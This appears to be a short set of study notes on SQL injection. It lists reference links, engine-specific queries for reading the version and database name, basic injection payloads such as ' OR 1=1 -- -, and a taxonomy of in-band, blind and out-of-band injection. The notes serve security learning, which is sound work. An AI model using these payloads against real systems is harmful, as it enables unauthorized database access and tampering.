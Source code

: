 
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi

### Finding stuff in different SQL versions

#### SQL version
Oracle           `SELECT banner FROM v$version SELECT version FROM v$instance`
MSSQL         `SELECT @@version`
PostgreSQL   `SELECT version()`
MySQL          `SELECT @@version`
SQLite           `SELECT sqlite_version()`
#### Database name
PostgreSQL   `SELECT current_database()`
MSSQL          `SELECT db_name()`
MySQL          `SELECT db_name()`


#### More Help
https://portswigger.net/web-security/sql-injection/cheat-sheet
Postgre: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
MSSQL: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md
even more https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
Tibs site: https://tib3rius.com/sqli

### Basics

id=`2;--`
`' OR 1=1 -- -` obs, not safe as all rows are returned/possibly updated

`something we know works' AND 1=1 --` safer alternative


## Three types
- In-Band - same method to retrieve results
	- Error-Based - errors shown on web page
	- Union-Based
- Blind
- Out-of-Band

## In-Band SQLi

In-Band = the same method of communication used to exploit the vulnerability and receive the results

### Error-Based

Error-Based = the sql errors shown on web page
